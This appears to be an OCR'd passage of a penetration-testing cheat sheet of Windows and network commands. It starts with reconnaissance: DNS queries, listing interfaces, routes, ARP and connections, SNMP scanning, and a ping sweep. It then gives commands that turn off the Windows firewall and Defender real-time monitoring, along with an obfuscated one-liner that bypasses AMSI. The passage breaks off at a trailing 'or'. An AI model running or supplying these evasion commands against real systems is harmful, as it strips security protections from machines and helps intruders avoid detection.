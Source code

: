 #List Name servers
dig -t NS domain_name

#list global catalog 
dig _gc. domain_name

#List all network interfaces, IP, and DNS.
ipconfig /all
Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address
Get-DnsClientServerAddress -AddressFamily IPv4 | ft

#List current routing table
route print
Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex

#List the ARP table
arp -A
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State

#List all current connections
netstat -ano

#Get some info via community string
use auxiliary/scanner/snmp/snmp_login
snmpcheck.pl -c community_string -t 10.10.10.10

#Powershell Ping Sweep
1..255 | % {echo "192.168.1.$_"; ping -n 1 -w 100 192.168.1.$_} | Select-String ttl 

#List firewall state and current configuration
netsh advfirewall firewall dump

or 
netsh firewall show state
netsh firewall show config

#List firewall's blocked ports
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports

#Disable firewall
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off


#Disable AntiVirus/ Windows Defender/ Firewall
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
netsh advfirewall set allprofiles state off}

#Disable AMSI 
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

or 
